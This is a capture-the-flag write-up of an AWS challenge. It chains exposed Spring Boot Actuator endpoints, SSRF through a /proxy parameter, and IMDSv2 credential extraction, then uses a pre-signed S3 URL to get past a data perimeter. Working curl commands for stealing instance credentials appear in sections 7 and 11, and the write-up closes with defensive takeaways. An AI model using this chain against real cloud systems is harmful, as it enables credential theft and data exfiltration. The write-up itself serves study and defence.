



## Challenge: Perimeter Leak

[https://www.cloudsecuritychampionship.com/challenge/1](https://www.cloudsecuritychampionship.com/challenge/1)

**Author:** Scott Piper
**Category:** Cloud / AWS / Data Perimeter
**Status:** Solved

---

# 1. Overview

After multiple stages of exploitation and privilege escalation, the final objective of this challenge was to retrieve a secret flag stored in an Amazon S3 bucket protected by an **AWS Data Perimeter**.

Unlike traditional IAM misconfiguration challenges, this scenario intentionally enforced a strong security control:

> The S3 bucket was protected by a data perimeter that blocked direct access attempts, even after credential compromise.

This write-up documents:

- Spring Boot Actuator exploitation

- SSRF via internal proxy

- IMDSv2 credential extraction

- IAM limitation analysis

- AWS Data Perimeter enforcement

- Final bypass using a pre-signed URL

- Architectural lessons learned

---

# 2. Research & References

Before exploitation, I reviewed documentation and research related to Spring Boot Actuator misconfigurations and SSRF abuse:

- [https://www.wiz.io/blog/spring-boot-actuator-misconfigurations](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)

- [https://blog.1nf1n1ty.team/hacktricks/network-services-pentesting/pentesting-web/spring-actuators](https://blog.1nf1n1ty.team/hacktricks/network-services-pentesting/pentesting-web/spring-actuators)

These resources were extremely helpful for:

- Understanding exposed Actuator risks

- Identifying dangerous endpoints

- Recognizing SSRF patterns

- Enumerating internal metadata exploitation paths

---

# 3. Architecture Overview

The target architecture can be summarized as:



### Key Components

- Public Spring Boot application

- Exposed Actuator endpoints

- Vulnerable `/proxy` SSRF endpoint

- EC2 Instance Metadata Service (IMDSv2)

- IAM Role attached to EC2

- S3 bucket protected by Data Perimeter

---

# 4. Initial Recon – Spring Boot Actuator Exposure

```bash
curl $HOST/actuator | jq .
```

The application exposed:

- `/actuator/env`

- `/actuator/mappings`

- `/actuator/configprops`

- `/actuator/beans`

- `/actuator/threaddump`

- `/actuator/loggers`

- `/actuator/scheduledtasks`

This is a severe production misconfiguration.

---

# 5. Sensitive Information Disclosure

Querying:

```bash
curl $HOST/actuator/env | jq .
```

Revealed:

```json
"BUCKET": "challenge01-470f711"
```

This directly exposed the target S3 bucket.

The environment also confirmed:

```json
"USER": "ec2-user"
```

Indicating the application was running on EC2.

---

# 6. SSRF via `/proxy`

From `/actuator/mappings`, I identified:

```json
{
  "predicate": "{ [/proxy], params [url]}",
  "handler": "challenge.Application#proxy(String)"
}
```

This allowed arbitrary outbound requests.

This is a classic SSRF primitive.

---

# 7. IMDSv2 Exploitation

### Obtain token

```bash
curl -X PUT "$HOST/proxy?url=http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
```

### Retrieve role name

```bash
curl "$HOST/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/" \
  -H "X-aws-ec2-metadata-token:$TOKEN"
```

### Extract credentials

```bash
curl "$HOST/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE>" \
  -H "X-aws-ec2-metadata-token:$TOKEN"
```

At this point, the EC2 instance IAM role was fully compromised.

---

# 8. Attack Flow Overview



---

# 9. IAM Access Limitations

Attempts included:

- `iam:list-roles`

- `iam:get-role`

- `sts:assume-role`

- `iam:simulate-principal-policy`

- `lambda:list-functions`

All returned `AccessDenied`.

This confirmed:

- No IAM escalation vector

- No lateral movement

- No policy enumeration possible

The barrier was not permissions — it was context.

---

# 10. AWS Data Perimeter Enforcement

The challenge description explicitly stated:

> The target uses an AWS data perimeter to restrict access.

Likely enforced via bucket policy conditions such as:

- `aws:SourceVpc`

- `aws:ViaAWSService`

- `aws:CalledVia`

- `aws:PrincipalArn`

Direct CLI access was denied due to explicit resource-based policy conditions.

---

# 11. Final Breakthrough – Pre-Signed URL

Instead of direct API access:

```bash
aws s3 presign s3://challenge01-470f711/private/flag.txt \
  --region us-east-1 \
  --expires-in 3600
```

Generated a pre-signed URL:

```text
https://challenge01-470f711.s3.amazonaws.com/private/flag.txt?X-Amz-Algorithm=...
```

Accessing the URL:

```bash
curl "<presigned-url>"
```

Returned the flag successfully.

---

# 12. Why Pre-Signed URLs Worked

Pre-signed URLs:

- Embed authorization in the request

- Are validated by S3 using signature verification

- Do not rely on the caller performing a direct IAM `GetObject`

- Can bypass context-based perimeter restrictions if not carefully constrained

This demonstrates a subtle weakness in perimeter enforcement.

---

# 13. Technical Challenges Faced

### Token Errors

Several `InvalidToken` issues due to:

- Expired credentials

- Mixed AWS profiles

- Environment variable conflicts

### Identity Role Confusion

Explored:

```text
/latest/meta-data/identity-credentials/
```

But instance identity roles have no API permissions.

### IAM Dead Ends

Multiple enumeration attempts yielded no progress.

### Misinterpreting Explicit Deny

Initially assumed lack of permission rather than contextual enforcement.

The shift from permission mindset to context mindset was critical.

---

# 14. Final Architecture Diagram



---

# 15. Lessons Learned

1. Exposed Actuator endpoints are extremely dangerous.

2. SSRF + IMDSv2 still results in credential compromise.

3. IAM compromise does not guarantee data access.

4. AWS Data Perimeters rely heavily on request context.

5. Pre-signed URLs can bypass poorly scoped perimeter controls.

6. Explicit deny ≠ impossible — sometimes it means wrong execution path.

---

# 16. Defensive Takeaways

- Never expose Actuator endpoints publicly.

- Validate and restrict proxy destinations.

- Properly scope bucket policies to account for:

    - Pre-signed URL conditions

    - `aws:CalledVia`

    - `aws:ViaAWSService`

    - Source constraints

- SSRF protection is mandatory when IMDS is reachable.

---

# 17. Final Thoughts

This challenge was not about privilege escalation.

It was about architectural understanding.

The key lesson:

> In cloud security, context is more important than credentials.

Even with full IAM credential compromise, strong data perimeter controls can prevent data exfiltration — unless a subtle bypass exists.

Excellent challenge design.
